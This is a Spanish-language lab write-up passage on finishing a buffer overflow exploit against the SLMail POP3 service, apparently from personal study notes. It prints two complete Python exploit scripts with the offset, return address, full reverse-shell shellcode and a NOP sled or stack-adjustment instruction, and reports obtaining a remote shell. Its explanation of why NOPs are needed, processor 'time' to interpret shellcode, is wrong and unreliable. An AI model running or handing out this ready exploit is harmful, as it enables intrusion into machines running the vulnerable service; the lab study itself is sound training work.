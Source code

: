 Ya hemos hecho que el EIP apunte al comienzo de la pila entonces ahora vamos a probar si el shellcode se interpreta y nos da una reverse shell entonces para esto reinicmiamos el servicio de slmail para despues ponernos en escucha en nuestra maquina atacante desde el puerto especificado


![[Pasted image 20240310074524.png]]

Ya estando en escucha ahora lo que sigue es ejecutar el exploit y si todo sale bien nos tendria que dar una shell 


![[Pasted image 20240310074711.png]]

Al ejeuctarlo no parece que nos haya dado una revershell 


![[Pasted image 20240310074907.png]]

BUeno esto no se interpreta ya que el shellcode al ser amplio y ciertamente complejo su ejecucuion puede requerir mas tiempo la que el procesador tiene disponilbe antes de que continue con la siguiente instruccion del programa por tanto lo que se suele hacer es asignarle un espacio como de descanso y con este espacio asignado ya hay tiempo suficiente del lado del procesador para que luego sea capaz de interpretar estas instrucciones para ello se suelen usar NOPs  los cuales no tienen ninguna operacion por lo que podemos asignar un par de NOPs los cuales se representan como x90 y bueno tu puedes meter un conjunto grande de NOPs antes de meter el shellcode de forma de que hay un espacio en el que no se hace nada por lo que le das tiempo al procesador de que interprete este shellcode esta es una forma otra puede ser desplazando la pila bueno entonces para que se interprete el shellcode lo que podemos hacer es meter algunos NOPs antes del shellcode por lo tanto podemos modificar el exploit de la siguiente manera


```python
#!/usr/bin/python3.11
from struct import pack

import sys
import socket

ip = "192.168.0.2"
port = 110


offset=4655

before_eip=b"A"*offset

eip=pack("<L",0x5f4c4d13)

shellcode=(b"\xdb\xc2\xbe\xa1\x84\x28\xe1\xd9\x74\x24\xf4\x5a\x2b\xc9"
b"\xb1\x52\x83\xea\xfc\x31\x72\x13\x03\xd3\x97\xca\x14\xef"
b"\x70\x88\xd7\x0f\x81\xed\x5e\xea\xb0\x2d\x04\x7f\xe2\x9d"
b"\x4e\x2d\x0f\x55\x02\xc5\x84\x1b\x8b\xea\x2d\x91\xed\xc5"
b"\xae\x8a\xce\x44\x2d\xd1\x02\xa6\x0c\x1a\x57\xa7\x49\x47"
b"\x9a\xf5\x02\x03\x09\xe9\x27\x59\x92\x82\x74\x4f\x92\x77"
b"\xcc\x6e\xb3\x26\x46\x29\x13\xc9\x8b\x41\x1a\xd1\xc8\x6c"
b"\xd4\x6a\x3a\x1a\xe7\xba\x72\xe3\x44\x83\xba\x16\x94\xc4"
b"\x7d\xc9\xe3\x3c\x7e\x74\xf4\xfb\xfc\xa2\x71\x1f\xa6\x21"
b"\x21\xfb\x56\xe5\xb4\x88\x55\x42\xb2\xd6\x79\x55\x17\x6d"
b"\x85\xde\x96\xa1\x0f\xa4\xbc\x65\x4b\x7e\xdc\x3c\x31\xd1"
b"\xe1\x5e\x9a\x8e\x47\x15\x37\xda\xf5\x74\x50\x2f\x34\x86"
b"\xa0\x27\x4f\xf5\x92\xe8\xfb\x91\x9e\x61\x22\x66\xe0\x5b"
b"\x92\xf8\x1f\x64\xe3\xd1\xdb\x30\xb3\x49\xcd\x38\x58\x89"
b"\xf2\xec\xcf\xd9\x5c\x5f\xb0\x89\x1c\x0f\x58\xc3\x92\x70"
b"\x78\xec\x78\x19\x13\x17\xeb\xe6\x4c\x17\x6b\x8e\x8e\x17"
b"\x6a\xf4\x06\xf1\x06\x1a\x4f\xaa\xbe\x83\xca\x20\x5e\x4b"
b"\xc1\x4d\x60\xc7\xe6\xb2\x2f\x20\x82\xa0\xd8\xc0\xd9\x9a"
b"\x4f\xde\xf7\xb2\x0c\x4d\x9c\x42\x5a\x6e\x0b\x15\x0b\x40"
b"\x42\xf3\xa1\xfb\xfc\xe1\x3b\x9d\xc7\xa1\xe7\x5e\xc9\x28"
b"\x65\xda\xed\x3a\xb3\xe3\xa9\x6e\x6b\xb2\x67\xd8\xcd\x6c"
b"\xc6\xb2\x87\xc3\x80\x52\x51\x28\x13\x24\x5e\x65\xe5\xc8"
b"\xef\xd0\xb0\xf7\xc0\xb4\x34\x80\x3c\x25\xba\x5b\x85\x45"
b"\x59\x49\xf0\xed\xc4\x18\xb9\x73\xf7\xf7\xfe\x8d\x74\xfd"
b"\x7e\x6a\x64\x74\x7a\x36\x22\x65\xf6\x27\xc7\x89\xa5\x48"
b"\xc2")
payload=before_eip+eip+b"\x90"*16+shellcode 

def exploit():

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((ip, port))

    banner = s.recv(1024)

    s.send(b"USER tumbaburras" + b'\r\n')
    response = s.recv(1024)

    s.send(b"PASS" + payload + b'\r\n')


    s.close

if __name__ == '__main__':

    exploit()




```


Entonces ahora si nuevamente reinicamos el servicio de SLmail para despues ponernos en escucha desde la maquina atacante

![[Pasted image 20240310080840.png]]

Seguidamente ejecutamos el exploit y si todo sale bien nos tendira que dar nuestra reverse shell

![[Pasted image 20240310082957.png]]

Y listo ya nos ha dado nuestra shell

![[Pasted image 20240310081029.png]]

BUeno si no quieres utilizar NOPs algo que puedes hacer es aplicar un desplazamiento de la pila para que tarde un poco mas en llegar al shellcode y una vez llegue pueda lograr interpretar el shellcode entonces como se puede hacer esto primero tienes que utilizar la siguiente herramienta la cual la utilizamos anteriormente

![[Pasted image 20240310081514.png]]

Ahora la ejecutamos e ingresamos la siguiente instruccion 

![[Pasted image 20240310081745.png]]

Lo que estamos haciendo es decrementar el valor del puntero de pila 16 bytes entonces nos copiamos la siguiente instruccion 

![[Pasted image 20240310082150.png]]

Y ahora si eliminamos los NOPs y colocamos esta instruccion antes del shellcode como un operation code como se muestra a continuacion 


```python
#!/usr/bin/python3.11
from struct import pack

import sys
import socket

ip = "192.168.0.2"
port = 110


offset=4655

before_eip=b"A"*offset

eip=pack("<L",0x5f4c4d13)

shellcode=(b"\xdb\xc2\xbe\xa1\x84\x28\xe1\xd9\x74\x24\xf4\x5a\x2b\xc9"
b"\xb1\x52\x83\xea\xfc\x31\x72\x13\x03\xd3\x97\xca\x14\xef"
b"\x70\x88\xd7\x0f\x81\xed\x5e\xea\xb0\x2d\x04\x7f\xe2\x9d"
b"\x4e\x2d\x0f\x55\x02\xc5\x84\x1b\x8b\xea\x2d\x91\xed\xc5"
b"\xae\x8a\xce\x44\x2d\xd1\x02\xa6\x0c\x1a\x57\xa7\x49\x47"
b"\x9a\xf5\x02\x03\x09\xe9\x27\x59\x92\x82\x74\x4f\x92\x77"
b"\xcc\x6e\xb3\x26\x46\x29\x13\xc9\x8b\x41\x1a\xd1\xc8\x6c"
b"\xd4\x6a\x3a\x1a\xe7\xba\x72\xe3\x44\x83\xba\x16\x94\xc4"
b"\x7d\xc9\xe3\x3c\x7e\x74\xf4\xfb\xfc\xa2\x71\x1f\xa6\x21"
b"\x21\xfb\x56\xe5\xb4\x88\x55\x42\xb2\xd6\x79\x55\x17\x6d"
b"\x85\xde\x96\xa1\x0f\xa4\xbc\x65\x4b\x7e\xdc\x3c\x31\xd1"
b"\xe1\x5e\x9a\x8e\x47\x15\x37\xda\xf5\x74\x50\x2f\x34\x86"
b"\xa0\x27\x4f\xf5\x92\xe8\xfb\x91\x9e\x61\x22\x66\xe0\x5b"
b"\x92\xf8\x1f\x64\xe3\xd1\xdb\x30\xb3\x49\xcd\x38\x58\x89"
b"\xf2\xec\xcf\xd9\x5c\x5f\xb0\x89\x1c\x0f\x58\xc3\x92\x70"
b"\x78\xec\x78\x19\x13\x17\xeb\xe6\x4c\x17\x6b\x8e\x8e\x17"
b"\x6a\xf4\x06\xf1\x06\x1a\x4f\xaa\xbe\x83\xca\x20\x5e\x4b"
b"\xc1\x4d\x60\xc7\xe6\xb2\x2f\x20\x82\xa0\xd8\xc0\xd9\x9a"
b"\x4f\xde\xf7\xb2\x0c\x4d\x9c\x42\x5a\x6e\x0b\x15\x0b\x40"
b"\x42\xf3\xa1\xfb\xfc\xe1\x3b\x9d\xc7\xa1\xe7\x5e\xc9\x28"
b"\x65\xda\xed\x3a\xb3\xe3\xa9\x6e\x6b\xb2\x67\xd8\xcd\x6c"
b"\xc6\xb2\x87\xc3\x80\x52\x51\x28\x13\x24\x5e\x65\xe5\xc8"
b"\xef\xd0\xb0\xf7\xc0\xb4\x34\x80\x3c\x25\xba\x5b\x85\x45"
b"\x59\x49\xf0\xed\xc4\x18\xb9\x73\xf7\xf7\xfe\x8d\x74\xfd"
b"\x7e\x6a\x64\x74\x7a\x36\x22\x65\xf6\x27\xc7\x89\xa5\x48"
b"\xc2")
payload=before_eip+eip+b"\x83\xEC\x10"+shellcode 

def exploit():

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((ip, port))

    banner = s.recv(1024)

    s.send(b"USER tumbaburras" + b'\r\n')
    response = s.recv(1024)

    s.send(b"PASS" + payload + b'\r\n')


    s.close

if __name__ == '__main__':

    exploit()




```

Entonces ahora reiniciamos nuevamente el servicio de SLmail y despues nos ponemos en escucha en nuestra maquina atacante

![[Pasted image 20240310083058.png]]

Finalmente ejecutamos el exploit 

![[Pasted image 20240310083312.png]]

Y listo ahora podemos ver que nos ha dado una reverse shell 


![[Pasted image 20240310083339.png]]

Esta ha sido otra forma de darle espacio al shellcode para su correcta interpretacion 


